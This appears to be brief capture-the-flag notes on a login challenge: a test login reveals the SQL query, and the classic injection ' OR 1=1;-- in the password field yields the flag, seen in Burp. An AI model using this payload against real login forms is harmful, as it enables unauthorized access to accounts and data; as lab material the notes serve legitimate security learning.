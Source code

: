 1. try to login with username: 123, password: 123, get below
- 
```
username: 123
password: 123
SQL query: SELECT id FROM users WHERE password = '123' AND username = '123'
```
2. try to exploit the "password" field, username cannot exploit
- username: 123, password: `' OR 1=1;--`
- get flag in Burp

